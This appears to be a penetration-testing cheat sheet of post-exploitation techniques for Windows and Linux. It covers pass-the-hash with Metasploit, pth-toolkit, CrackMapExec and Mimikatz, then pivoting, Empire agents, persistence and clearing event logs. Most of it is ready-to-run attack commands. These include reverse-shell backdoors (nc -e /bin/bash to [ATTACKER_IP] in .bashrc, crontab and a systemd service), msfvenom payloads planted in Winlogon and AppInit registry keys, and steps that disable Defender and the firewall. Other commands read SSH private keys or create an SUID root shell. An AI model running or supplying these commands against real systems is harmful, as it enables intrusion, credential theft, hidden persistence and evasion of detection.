    -   pass the hash is a technique that can let us login and  connects to the victim using the Server Message Block (SMB) protocol and performs authentication using the username and  the NTLM hash   instead of userrname and plaintext password so if we found an ntlm hash  we dont need to crack the hash   :(windows has a vulnerability that we can login with the hash without cracking it) Note that this will not work for Kerberos authentication but only for server or service using NTLM authentication. (very usefull in pivoting)

    -   **Metasploit**

        -   use exploit/windows/smb/psexec   

        -   set rhost 

        -   set SMBPASS \<hash\> 

        -   set smbuser \<adminname\>

        -   set smbdomain workgroup

        -   run

    -   **Pth-toolkit (linux platform)**

        -   **Pth-toolkit**

            -   set of tools to pass the hash from a Linux platform. They are installed by default on Kali

        -   **Pth tools**

            -   pth-net: (/usr/bin/pth-net) executes net commands (net user, net share) on remote hosts

            -   pth-rpcclient: (/usr/bin/pth-rpcclient)opens an session to execute RPC commands

            -   pth-smbclient: (/usr/bin/pth-smbclient) browses available shares on remote computers

            -   pth-winexe: (/usr/bin/pth-winexe) executes interactively a command on remote computers

            -   pth-wmic: (/usr/bin/pth-wmic) executes WMI queries on remote computers

            -   pth-wmis: (/usr/bin/pth-wmis) executes a command using WMI on remote computers

        -   **Examples**

            -   pth-winexe -U \<user\>%\<ntlm\> //\<ip\> command

            -   pth-winexe -U DOMAIN/\<user\>%\<ntlm\> //\<ip\> command

            -   pth-winexe -U administrator%\<hash\> //ip cmd.exe    (work good for admin account)

            -   pth-winexe -U WORKGROUP/administrator%ntlm:Lm //192.168.0.101 cmd

            -   pth-wmic -U WORKGROUP/Administrator%\<ntlm\>:\<LM\> //192.168.1.25 \"select Name from Win32\_UserAccount\"

            -   pth-wims -U WORKGROUP/Administrator%\<ntlm\>:\<LM\> //192.168.1.25 \"cmd.exe /c whoami \> c:\\temp\\result.txt\"

            -   pth-smbclient -U WORKGROUP/Administrator%\<ntlm\>:\<LM\> //192.168.1.25/c\$

            -   pth-rpcclient -U WORKGROUP/Administrator%\<ntlm\>:\<LM\> //192.168.1.25

            -   Another method

                -   export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896

                -   pth-winexe -U administrator //192.168.1.101 cmd

    -   **crackmapexec (linux platform)**

        -   git clone https://[github.com]/byt3bl33d3r/CrackMapExec.github

        -    cme smb 192.168.1.100 -u Administrator -H \":ntlm\_hash\" -x \'whoami\' \# cmd

        -    cme smb 192.168.1.100 -u Administrator -H \":ntlm\_hash\" -X \'whoami\' \# powershell

        -    cme smb 192.168.1.100 -u Administrator -H \":ntlm\_hash\" \--exec-method atexec -x \'whoami\'

        -    cme smb 192.168.1.100 -u Administrator -H \":ntlm\_hash\" \--exec-method wmiexec -x \'whoami\'

        -    cme smb 192.168.1.100 -u Administrator -H \":ntlm\_hash\" \--exec-method smbexec -x \'whoami\'

    -   **xfreerdp (linux platform)**

        -   apt-get install freerdp-x11

        -   xfreerdp /u:\<user\> /d:\<domain\> /pth:{ntlm} /v:\<ip\>:3389 /dynamic-resolution

        -   xfreerdp /u:didi /d:win2012 /pth:{ntlm\_hash} /v:192.168.1.5

    -   **Lmpacket (windows platform)**

        -   git clone <https://github.com/maaaaz/impacket-examples-windows.git>

        -   impacket-wmiexec \<user\>@\<ip\> -hashes \<lm:nt\>

        -   python wmiexec.py -hashes :\<hash\> \<user\>@\<ip\>

        -   ./wmiexec.py -hashes \<ntlm\>:\<lm\> administrator\@192.168.1.4   

    -   **Mimikatz (windows platform)**

        -   sekurlsa::pth /user:Administrateur /domain:WORKGROUP /ntlm:cc36cf7a8514893efccd332446158b1a

    -   **Psexec (windows platform)**

        -   **Psexec**

        -   is a portable tool from Microsoft  included in the [Sysinternals Suite] that lets you run processes remotely using any user\'s credentials. It's a bit like a remote access program but instead of controlling the remote computer with a mouse, commands are sent to the computer via cmd **Examples**

            -   psexec \[Computer\_name or IP\] \[options\] \[command\] \[command\_arguments\]

            -   psexec \\192.168.122.66 -u Administrator -p 123456Ww -c cmd.exe

            -   psexec \\192.168.122.66 -u Administrator -p 123456Ww cmd.exe

            -   psexec \\192.168.122.66 -u Administrator -p 123456Ww -s regedit.exe  \# RUN A COMMAND AS SYSTEM

            -   psfile \\192.168.122.66 -u Administrator -p 123456Ww  \# LIST FILE

            -   psinfo \\192.168.122.66 -u Administrator -p 123456Ww \# GET SYSINFO

-   <h2 align="center">Port forwarding</h2>

    -   **Metasploit**

        -   portfwd add -l \<attacker port\> -p \<victim port\> -r \<victim ip\>

        -   portfwd add -l 6666 -p 7777 -r 192.168.1.101  //any traffic comes on port  6666 on my machine forward it to 7777 on this ip  . to test it Let's connect to 127.0.0.1:6666  through rdesktop to access the compromised host in the internal network

    -   **Netcat**

        -   nc -lnvp 22 \# target machine

        -   mknod relaynode p \# gateway

        -   nc -lvnp \<any\_port\_nb\> 0\<relaynode \| nc 127.0.0.1 22 1\> relaynode

        -   nc 127.0.0.1 1111  or  ssh user\@host -p \<any\_port\_nb\> \# source machine

    -   **Rinaetd**

        -    Python -m SimpleHTTPServer 80 \# target machine

        -   apt-get install rinetd \# Gateay

        -   nano /etc/rinetd.conf

        -   localhost    localport    remotehost    remoteport     

        -   127.0.0.1    53            127.0.0.1    80

        -   Browse to [http://gatway:53] → [http://127.0.0.1:53] \# source machine

    -   **Ssh tunneling**

        -   **Local port forwarding**

        -   **Remote port forwarding**

        -   **Dynamic port forwarding**

    -   **Plink.exe**

        -   plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080

-   <h2 align="center">Pivoting (lateral movement)</h2>
>method used by penetration testers that uses the compromised system or host to attack other systems on the same network "

-   **Metasploit**

    -   if we found that the target has 2 network interfaces which means has multiple network (multihomed) we can add that subnet

    -     msf \>route add \[victim2\_subnet\] \[session\_id\]

    -   **Meterpreter**

        -   Meterpreter \> run autoroute -s 192.168.15.0/24

    -   **Module**

        -   Use post/windows/manage/autoroute

            -   Set session \[nb\] -\> will automate the process without specifying the new ip subnet

            -   Run

        -   We can combine route it with socks module to allow other tools outside metasploit to interact with the target and tunnel through metasploit pivot

            -   Use auxiliary/server/socks4a

            -   Set SRVHOST 127.0.0.1

            -   Set SRVPORT \[PORT\]

            -   Exploit -j

            -   Then edit the proxychains
                
                -   echo "socks4 127.0.0.1 \[port\] " \>\> /etc/proxychains.conf

        -   Then get the hashes from the target admin passwords are usually the same in the network and you can use pass the hash  and we can try pth with psexec in metasploit

            -   use exploit/windows/smb/psexec

            -   set rhost \[target\_host\_2\]

            -   set SMBUSER \[Administrator\]

            -   set SMBPASS \[hash\]

            -   set payload  \[payload\]

            -   exploit

-   <h2 align="center">Ssh tunneling</h2>

-   **Built-in system tools**

    -   **Rdp**

        -   C:\\Windows\\System32\\mstsc.exe

        -   rdesktop 192.168.112.200 -g 80%

            -   -g 80 means takes 80% of your actual screen

        -   rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70

        -   xfreerdp /u:user /d:domain /pth:{ntlm\_hash} /v:192.168.112.200

        -   Meterpreter \>  run getgui -u admin -p 1234

    -   **Windows Remote Management (WinRM)**

        -   Windows Remote Management (WinRM) is the name of both a Windows service and a protocol that allows a admins to interact and execute commands on a remote system {works on port 5985 , 5986}

        -   powershell Enable-PSRemoting -Force

        -   Invoke-Command -ComputerName TARGET -ScriptBlock { dir c:\\ }

            -   Invoke-command Can be used over winrm service

        -   winrs -r:http://Computer\_name /wsman \"cmd\"

            -   winrm utility

    -   **Runas**

        -   runas /netonly /user:DOMAIN\\username \"cmd.exe\"

        -    runas /noprofil /netonly /user:DOMAIN\\username cmd.exe

-   **Third party tools**

    -   **Vnc**

    -   **Lmpacket tool (Smb)**

        -   git clone https://[github.com]/CoreSecurity/impacket.git

            -   cd impacket/

            -   python setup.py install

        -   http://download.sysinternals.com/files/PSTools.zip

        -   **Psexec**

            -   python psexec.py DOMAIN/username:password@\[ip\]

            -   python psexec.py username:Password\@192.168.112.200 cmd.exe

            -   python psexec.py -hashes {}  user\@192.168.10.60 \"cmd\"

            -   PsExec.exe \\\\{hostname/ip} -u administrator -p {password} cmd

            -   PsExec64.exe \\\\WIN01 -accepteula -s -u localadmin -p password \"cmd\"

            -   PsExec64.exe \\\\192.168.10.60 -accepteula -s -u localadmin -p password cmd.exe

        -   **Smbexec**

            -   python smbexec.py DOMAIN/username:password\@10.10.10.10

            -   python smbexec.py user:Password\@192.168.112.200 cmd.exe

            -   python smbexec.py -hashes \[hash\] ./aasadmin\@192.168.10.60

        -   **atexec**

            -   python atexec.py DOMAIN/username:password\@10.10.10.10

            -   executes a command on the target machine through the Task Scheduler service

        -   **wmiexec**

            -   python wmiexec.py DOMAIN/username:password\@10.10.10.10

            -   python wmiexec.py DOMAIN/username:password\@10.10.10.10 "cmd.exe"

    -   **winexe**

        -   winexe -U Domain/user%Password //192.168.112.200 cmd.exe

    -   **Wmnic**

        -   wmic /node:10.0.0.6 /user:administrator /password:test   process call create \"cmd.exe \"

    -   **Sshuttle**

        -   Apt install sshuttle

        -   sshuttle -r user@\[target\_ip\] 0.0.0.0/0 {0/0 == 0.0.0.0/0}

        -   sshuttle -vr user\@webserver targetSubnet/24

    -   **Evil-winrm \[winrm for linux\]**

        -   git clone https://[github.com]/Hackplayers/evil-winrm

        -    evil-winrm -i IP -u USER \[-s SCRIPTS\_PATH\] \[-e EXES\_PATH\] \[-P PORT\] \[-p PASS\] \[-H HASH\] \[-U URL\] \[-S\] \[-c PUBLIC\_KEY\_PATH \] \[-k PRIVATE\_KEY\_PATH \] \[-r REALM\]

        -   evil-winrm.rb -i 192.168.1.100 -u Administrator -p \'MySuperSecr3tPass123!\' -s \'/home/foo/ps1\_scripts/\' -e \'/home/foo/exe\_files/\'

    -   **Powershell**

        -   Enter-PSSession --ComputerName \[name\]

    -   **Pass the hash**
 
    -   **Pass the ticket**

-   <h2 align="center">Empire framework</h2>
    >   Empire is a "PowerShell and Python post-exploitation agent" with a heavy focus on client-side exploitation and post-exploitation of Active Directory (AD) deployments based on listeners and payloads called agents or stagers)

    -   **Download & Installation**

        -   Git clone <https://github.com/EmpireProject/Empire.git>

        -   Cd Empire && ./setup/install.sh

    -   **Commands**

        -   help

        -   listeners     -\>enter listener tab and list alll listeners working

        -   uselistener \[name\]      (double tab first to list all available stagers)

        -   uselistener http -\> http listener is the most stable

            -   info      -\> same as show options in msfconsole

            -   set \[option\] \[value\]

            -   execute  

            -   back    -\>return to the main listener menu

        -   agents   -\>enter agents tab

        -   usestager  \[name\]     (double tab first to list all available stagers)

        -   usestager windows/launcher\_bat     -\> windows/launcher\_bat   is the most stable   

            -   info

            -   set Listener \[name\]    -\> connect our agent with the listener

            -   set OutFile \[path location\]    -\> change the location of the payload generated

            -   execute   -\> will generate a file that we will send it to the target to get a connections on the listener we made

        -   **Interacting with the Agent**

            -   agents - \>list all agents and to know the agent name

            -   interact \[agent\_name\]

            -   rename \[another name\]   -\> rename our agent to be simple        or  rename \[old name\] \[new name\]

            -    info    -\>will give us some info about that  agent if high integrity = 1 in help results then we are admin  if 0 then we need to get higher priv

            -    help    -\> show available commands

            -   sysinfo

            -   bypassuac http    -\> get higher priviledge   

            -   shell \[command\]   -\> will execute a cmd command on the target

            -   mimikatz 

                -   creds    -\> to extract credentials

            -   process migration

                -   ps -\> to know all running process

                -   psinject \[istener\_chosen\] \[process id\] //  migrate to a process id we must give it the name of our listener which is http    It is important to note that, unlike the migration feature of the meterpreter payload, once the process migration is completed, the original Empire agent remains active and we must manually switch to the newly created

                    -   agents

                    -   interact \[new\_agent\]

            -   upload

            -   download

            -   Empire modules

                -   usemodules \<doubletab\> -\> show all modules

                -   usemodue \[modulename\]    {info \| run \| back}

                -   searchmodule \[name\] -\> search a module

        -   **Module examples**

            -   **Privilege escalation modules**

            -   usemodule powershell/privesc/powerup/allchecks

            -   usemodule privesc/bypassuac\_fodhelper

            -   **credential harvesting modules**

                -   usemodule credentials/ \<double tab\>

                -   usemodule credentials/mimikatz/logonpasswords   &&  sekurlsa::logonpasswords

            -   **persistence modules**

                -   usemodule persistence/elevated/schtasks\*   

                    -   set OnLogon True

                -   usemodule persistence/userland/registry         

            -   **Active directory & pivoting modules**

                -   usemodule  situational\_awareness/network/find\_localadmin\_access  -\>  To find machines where you can PsExec

                -   usemodule  situational\_awareness/network/powerview/get\_user .   -\>  to enumerate users in a domain

                -   usemodule lateral\_movement/invoke\_wmi          -\> pivoting This module will let you install Empire agents on additional domain machines

                    -   set ComputerName \[TARGET\]

                -   usemodule lateral\_movement/invoke\_psexec.  -\> This module will let you install Empire agents on additional domain machines by manipulating the remote service manager to { create / configure / start } a   remove service

                -   usemodule lateral\_movement/invoke\_smbexec.  -\> active directory pivoting 

                    -   set Listener \[value\]

                    -   set computerName \[pc\_name\]

                    -   set Username \[Name\]

                    -   set Hash \[hash\]

                    -   set Domain \[Domain\_name\]

                    -   execute

        -   Note that the command result does not return immediately. This delay is caused by the DefaultDelay parameter, which is currently set to the default value of five seconds.

  
-   <h2 align="center">Persistence</h2>

    -   **Metasploit**

        -   Meterpreter \> run persistence -A -l c://windows -X -i \[time in sec\] -P windows/meterpreter/reverse\_tcp  -p \[port\] -r \[ip\]

        -   Arguments

            -   -l = location of the backdoor

            -   -A = setup a listener automatically

            -   -I = interval time to try connect to the attacker  

        -   metasploit + veil = use exploit/windows/local/persistence \| (show advanced) \|  and upload veil payload

    -   **Linux**

        -   **Add ssh keys**

            -   This is useful if you can access SSH service on the machine. SSH keys are a secure and convenient way to login through SSH. When you configure SSH keys for a Linux user account, you can login through SSH without knowing the account's password

            -   So, if we add our public key to some user's authorized\_keys file, we'll be able to login as that user through SSH. If you don't have a key already, you can generate one on your attacker machine using ssh-keygen.

            -   Add your public key to the user's \~/.ssh/authorized keys (create the directory and the file if it's not there, if the file exists just add a line with your key)

                -   write the content of \~/.ssh/id\_rsa.pub  into  \~/.ssh/authorized\_keys

            -   Ensure permissions

                -   chmod 700 \~/.ssh

                -   chmod 600 \~/.ssh/authorized\_keys

        -   **Add a user**

            -   useradd new

            -   passwd new

            -   usermod -aG root new  //add that user to root group

        -   **Add backdoor to crontab**

            -   Crontab --e

            -   \*/10 \* \* \* \* nc -e /bin/bash \[ip\] \[port\] -\> execute every 10 mins

            -   Or echo "\*/1 \* \* \* \* \[user\] nc -e /bin/bash 127.0.0.1 9000" \>\> /etc/crontab

        -   **make an suid binary**

            -   echo \'int main(void){setresuid(0, 0, 0);system(\"/bin/sh\");}\' \> /tmp/suid.c

            -   gcc -o /tmp/suid /tmp/suid.c

            -   sudo chmod +x /tmp/suid \# execute right

            -   sudo chmod u+s /tmp/suid \# setuid bit

        -   **make a service**

            -   Create a service

                -   sudo nano /etc/systemd/system/service\_name.service

                -   sudo nano \~/.config/systemd/user/name.service -\> doesn't require root access

            -   Service script

                -   Description=GIVE\_YOUR\_SERVICE\_A\_DESCRIPTION

                -   

                -   \[Service\]

                -   Type=simple

                -   ExecStart=/usr/bin/nc 127.0.0.1 8000 -e /bin/bash

                -   Restart=on-failure

                -   RestartSec=10

                -   KillMode=process

                -   

                -   \[Install\]

                -   WantedBy=multi-user.target

            -   Enable service

                -   sudo systemctl daemon-reload

                -   sudo systemctl enable test

                -   sudo systemctl start test

                -   sudo systemctl status test

        -   **Edit the ./bash\_rc   \| ./bash\_profile**

            -     echo \'nc -e /bin/bash \[ATTACKER\_IP\] \[PORT\] 2\>/dev/null &\' \>\> \~/.bashrc

        -   **Add a new user and add him to sudoers**

            -   \[USER\] ALL=(ALL) NOPASSWD: ALL

    -   **Windows**

        -   **Add a new user**

            -   net user new \*/add    make a new user

            -   net localgroup administrators new /add  //add that user to admin group

        -   **scheduled tasks** (such as [at] and [schtasks], along with the Windows Task Scheduler)

            -   schtasks /create /sc minute /mo 1 /tn \"name\" /tr C:\\tools\\shell.cmd /ru \"SYSTEM\"      // Creating a new scheduled task that will launch shell.cmd every minute

            -   schtasks /create /tn \"taskname\" /tr C:\\Users\\Public\\test.exe /sc ONLOGON /ru \"System\"     //Creating a new scheduled task that will launch test.exe every logon

            -   **powershell method**

                -    PS C:\\\> \$A = New-ScheduledTaskAction -Execute \"cmd.exe\" -Argument \"/c C:\\Users\\Rasta\\AppData\\Local\\Temp\\backdoor.exe\"

                -   PS C:\\\> \$T = New-ScheduledTaskTrigger -AtLogOn -User \"anyuser\"

                -    PS C:\\\> \$P = New-ScheduledTaskPrincipal \"anyuser\"

                -    PS C:\\\> \$S = New-ScheduledTaskSettingsSet

                -   PS C:\\\> \$D = New-ScheduledTask -Action \$A -Trigger \$T -Principal \$P -Settings \$S

                -   PS C:\\\> Register-ScheduledTask Backdoor -InputObject \$D

        -   **Add Entry to Registry startup**
        > makes the program to run every time the user logon
            -   **The keys used by the malware to gain persistence at user level**

                -   \"HKCU \\Software\\Microsoft\\Windows\\CurrentVersion\\Run\"

                -   \"HKCU \\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce\" 

                -   \"HKCU \\Software\\Microsoft\\Windows\\CurrentVersion\\RunServices\"

                -   \"HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\RunServicesonce\"

            -   **The keys used by the malware to gain persistence at root/admin level**

                -   \"HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\"   

                -   \" HKLM \\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\RunOnce \"

                -   \" HKLM \\Software\\Microsoft\\Windows\\CurrentVersion\\RunServices \"

                -   \" HKLM \\Software\\Microsoft\\Windows\\CurrentVersion\\RunServicesOnce \" 

                -   \" HKLM \\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\Run \"

        -   **Adding payloads**

            -   REG ADD HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v shell  /t REG\_SZ  /f /d \"c:\\shell.exe\" 

            -   meterpreter\>reg setval -kHKLM\\software\\microsoft\\windows\\currentversion\\run \'\"C:\\backdoor.exe\"\' --v

    -   **Metasploit**

        -   use post/windows/local/registry\_persistence

        -   use post/windows/manage/persistence\_exe

            -   set rexepath /root/payload.exe

-   **Auto startup folders**

    -   **Autostart folder of the current user**

        -   %appdata%\\Microsoft\\Windows\\Start Menu\\Programs\\Startup

        -   C:\\Users\\USERNAME\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup

    -   **Autostart folder of all users**

        -   %programdata%\\Microsoft\\Windows\\Start Menu\\Programs\\Startup

        -   C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp

-   **service execution**

    -   make a service that has our shell to start every time on startup or every time a user logon (admin privilege is required)

        -   sc create \<servicename\> binPath= \"c:\\shell.exe\" start=auto    //make a service that has our shell to start every time on startup

        -   sc start \<service name\>

    -   you can find it at

        -   \"HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\servicename\"  or

        -   \"HKEY\_LOCAL\_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\RunServices\"

    -   **Metasploit**

        -   use exploit/windows/local/persistence service

-   **Windows logon helper (winlogon.exe process)**

    -   Winlogon.exe is a Windows component responsible for actions at logon/logoff and for user authorization and Windows activation checks  as well as the secure attention sequence (SAS) triggered by Ctrl-Alt-Delete  are used to notify event  handles when SAS happens and loads a DLL. This DLL can be   edited to launch whenever such SAS event occurs  (runs in the background.)  You can't disable this process. It's a crucial part of Windows and must be running at all times.

    -   **Registry subkeys**

        -   HKCU\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Userinit   

            -   \# normal user persistence

        -   HKCU\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Notify   

            -    \# normal user persistence

        -   HKCU\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\shell     

            -    \# normal user persistence

        -    HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Userinit 

            -    \# admin or system persistence

        -   HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Notify    

            -   \# admin or system persistence

        -   HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\shell     

            -    \# admin or system persistence

    -   **Components explanation**

        -   Winlogon\\Notify - points to notification package DLLs that handle Winlogon events

        -   Winlogon\\Userinit - points to userinit.exe, the user initialization program executed when a user logs on

        -   Winlogon\\Shell - points to explorer.exe, the system shell executed when a user logs on

        -   Winlogon process uses the value specified in the Userinit key to launch login scripts etc. Usually, userinit key points to userinit.exe but if this key can be altered, then that exe will also launch by Winlogon.

    -   **Exploiting winlogon**

        -   **Generate a payload**

        -   msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.10.10 LPORT=4444 -f exe \> payload.exe

        -   **we can exploit the userinit subkey or shell subkey both will work**

        -   reg add \"HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\" /v Userinit /d \"Userinit.exe, c:\\\\payload.exe\" /t reg\_sz /f

        -   reg add \"HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\" /v Shell /d \"explorer.exe, c:\\\\payload.exe\" /t reg\_sz /f

        -   **set registry subkeys with powershell  **

        -   Set-ItemProperty \"HKLM:\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\\" \"Userinit\" \"Userinit.exe, evilbinary.exe\" -Force

        -   Set-ItemProperty \"HKLM:\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\\" \"Shell\" \"explorer.exe, evilbinary.exe\" -Force

    -   Rebooting the compromised system executes the payload.exe, which in turn establishes a reverse shell to the attacking system

-   **Rid hijacking**

    -   hijacking the RID the Administrator account for the Guest account, or another local account so when we login with guest account we will have admin privileges

    -   Windows operating systems use the RID (Relative Identifier) to differentiate groups and user accounts. It is part of the Security Identifier (SID) and every time a new account or a group is created the number is increased by one. The local administrator group RID is always 500 and standard users or groups typically start with the number 1001. This can assist penetration testers and red team operators to distinguish whether an account is elevated or a standard during RID enumeration.[Sebastian Castro] discovered that is is possible to make a modification in the registry in order to make the Guest account an admin by hijacking the RID of a valid account. This technique requires SYSTEM level privileges as the location in the registry is not visible under standard or administrator privileges. During an offensive operation it can be used as a method to maintain persistence using only accounts that are part of the system. Activities will populated in the event log as the user that it has being hijacked instead of the hijacker account.The registry SAM (security account manager) key stores information about the local accounts of the system. However the contents of this key are hidden from standard and elevated users. "HKEY\_LOCAL\_MACHINE\\SAM\\SAM\\"

    -   The contents of the SAM registry key can be obtained by accessing the Registry as SYSTEM. This can be achieved by opening the registry through "*PsExec*"

        -   PsExec64.exe -s -i regedit.exe

    -   **Metasploit**

        -   use post/windows/manage/rid\_hijack

            -   set getsystem true

            -   set guest\_account true

            -   set session 1

            -   set password anypass

    -   **Empire**

        -   usemodule persistence/elevated/rid\_hijack

    -   **powershell**

        -   Import-Module .\\RIDHIJACK.ps1

        -   Invoke-RIDHijacking -UseGuest -RID 500 -Password passofacc

-   **Applint\_dlls**

    -   Windows operating systems provide the functionality to allow custom DLL's to be loaded into the address space of almost all application processes. This can give the opportunity for persistence since an arbitrary DLL can be loaded that will execute code when applications processes are created on the system. Administrator level privileges are required to implement this technique. The following registry keys control the loading of DLL's into applications via AppInit.

        -   HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Windows

        -   HKLM\\Software\\Wow6432Node\\Microsoft\\Windows NT\\CurrentVersion\\Windows

    -   Microsoft to protect Windows users from malware has disabled by default the loading of DLLs's via AppInit. However, setting the registry key "**LoadAppInit\_DLLs**" to value "**1**" will enable this functionality. Dropping the arbitrary DLL into the "**Program Files**" directory and modifying the "**AppInit\_DLLs**" registry key to contain the path of the DLL will load the evil.dll into every Windows application. This is because DLL's that are specified in the "**AppInit\_DLLs**" registry key are loaded by the user32.dll which is used by almost all applications.

    -   **Enable LoadAppInit\_DLLs - 32bit and 64bit**

        -   HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Windows\\LoadAppInit\_DLLs - 0x1

        -   HKLM\\Software\\Wow6432Node\\Microsoft\\Windows NT\\CurrentVersion\\Windows\\LoadAppInit\_DLLs - 0x1 

    -   **Registry Key for Arbitrary DLL via AppInit - 32bit and 64bit **

        -   HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\WindowsAppInit\_DLLs

        -   HKLM\\Software\\Wow6432Node\\Microsoft\\Windows NT\\CurrentVersion\\Windows\\AppInit\_DLLs

    -   **Generate a malicious dll**

        -   msfvenom -p windows/meterpreter/reverse\_tcp LHOST=\[ip\] LPORT=\[port\] -f dll \> evil.dll

    -   upload this dll to the target's host in the program files directory but this method is very noisy and will generate multiple sessions

        -   set ExitonSession false

        -   explit -j

-   **Com hijacking**

-   **DLL Search Order Hijacking**

-   **Shortcut Hijacking**

    -   Another simple but very effective technique is to hijack the shortcut icons every shortcut has a target attribue (box) .that can be opened by right click then program properties.we can modify that value in the  Target attribute to contain   the normal application to be launched, and also  to execute another program

    -   **Ex :**

        -   the target value is  \"  \\\\VBOXSVR\\Tools\\HxD\\HxD64.exe \"

        -   change the shortcut\'s target box value to this simple powershell

        -   powershell.exe -c \"invoke-item \\\\VBOXSVR\\Tools\\HxD\\HxD64.exe; invoke-item c:\\windows\\system32\\calc.exe\"

        -   it will launch the normal app along with the calc.exe  but we will notic that the icon is change to a powershell script We can change it back by clicking \"Change Icon\" and specifying the original .icon of the normal app

-   <h2 align="center">Post Exploitation other activities</h2>

    -   check if the pc is duelhomed machine which means it has more than one network adapter maybe each one is attached to a diff network

    -   check for ssh keys private/public keys to be able to access after that with ssh keys

        -   cat \~/.ssh/authorized\_keys

        -   cat \~/.ssh/identity.pub

        -   cat \~/.ssh/identity

        -   cat \~/.ssh/id\_rsa.pub

        -   cat \~/.ssh/id\_rsa

        -   cat \~/.ssh/id\_dsa.pub

        -   cat \~/.ssh/id\_dsa

        -   cat /etc/ssh/ssh\_config

        -   cat /etc/ssh/sshd\_config

        -   cat /etc/ssh/ssh\_host\_dsa\_key.pub

        -   cat /etc/ssh/ssh\_host\_dsa\_key

        -   cat /etc/ssh/ssh\_host\_rsa\_key.pub

        -   cat /etc/ssh/ssh\_host\_rsa\_key

        -   cat /etc/ssh/ssh\_host\_key.pub

        -   cat /etc/ssh/ssh\_host\_key

        -   find / -name authorized\_keys 2\> /dev/null

        -   find / -name id\_rsa 2\> /dev/null

    -   pull the hashes and passwords from the target machine

    -   **Change from shell to meterpreter**

        -   background our opened shell session

        -   use post/multi/manage/shell\_to\_meterpreter

        -   set session \<nb\>

        -   run

    -   **Enable RDP on windows**

        -   reg add "HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server" /v fDenyTSConnections /t REG\_DWORD /d 0 /f   or (/d 0x00000000)

        -   netsh firewall set service remoteadmin enable

        -   netsh firewall set service remotedesktop enable

        -   If you get this error: \"ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ? Failed to connect, CredSSP required by server.\"\"

        -   Add this reg key: reg add \"HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp\" /v UserAuthentication /t REG\_DWORD /d 0 /f

        -   With powershell

            -   PS \> Set-itemproperty \'HKLM:\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\\' -Name \"fDenyTSConnections\" -value 0

            -   PS \> Set-ItemProperty \'HKLM:\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp\\\' -Name \"UserAuthentication\" -value 1

            -   PS \> Enable-NetFirewallRule -DisplayGroup \"Remote Desktop\"

    -   **Disable windows firewall**

        -   netsh firewall set opmode disable

        -   or

        -   Netsh Advfirewall show allprofiles

        -   NetSh Advfirewall set allprofiles state off

    -   **Disable windows defender**

        -   sc config WinDefend start= disabled

        -   sc stop WinDefend

        -   Set-MpPreference -DisableRealtimeMonitoring \$true

    -   **Uninstalling a software**

        -   wmic product get name /value (this gets software names) 

        -   wmic product where name=\"XXX\" call uninstall /Interactive:Off (this uninstalls software)

    -   **From admin to system**

        -   "psexec.exe --S --I --D cmd.exe"  elevate from admin to system authority

    -   **Metasploit**

        -   **Modules**

            -   search type:post platform:{windows/linux} 

            -   exploit/windows/local/\<tab\>                \# to view all modules

            -   use post/windows/gather/enum\_            \#doubletab to see all you can enum

            -   run post/windows/gather/enum\_firefox \# Get firefox cache

            -   run post/windows/gather/enum\_chrome \# Get Chrome cache

            -   run post/windows/gather/enum\_ie \# Get IE cache

            -   run post/windows/gather/ Forensics/enum\_drives \# View memory information

            -   run post/windows/gather/enum\_applications \# Get installation software information

            -   run post/windows/gather/dumplinks \# Get recently accessed documents, link information

            -   use post/windows/manage/migrate \# migrate the process to notepad.exe by default

            -   use post/windows/gather/credentials/    \#harvest some credentials

        -   **Meterpreter\>**run winenum in //gather a lot of info (one command automate many post modules)

        -   **Meterpreter\>**run scraper  //Scaper -- same as winenum Harvests everything you might want from a system including network shares, registry hives, password hashes, etc. All this information is stored in /root/.msf4/logs/scripts/scraper directory

        -   **Meterpreter\>**run checkvm" will check if the remote machine which we have compromised is a virtual machine or is a real machine.

        -   **Meterpreter\>**run Killav: script stops and terminates Av processes and thus clears our path of faster and effective penetration tests. This script however is not an absolute method of escaping antivirus, but can be usefull

        -   **Meterpreter\>**use incognito

            -   list\_tokens -u

            -   list\_tokens -g

            -   impersonate\_token DOMAIN\_NAME\\\\USERNAME

            -   steal\_token PID

            -   drop\_token

            -   rev2self

-   <h2 align="center">Clear Tracks</h2>

    -   **Windows logs**

        -   metasploit

            -   Meterpreter \> clearev (command)

        -   Delete users created if you created a user

            -   net user /del extraaccount 

        -   windows logs can be found in (win32 /winevt/ or search for EVENT VIEWER / windows logs) (windows logs are bounded by an amount of space after that the logs will be overwritten )

            -   application logs: keeps the logs for application errors

            -   security logs :  keeps the logs for login/logout to the system records

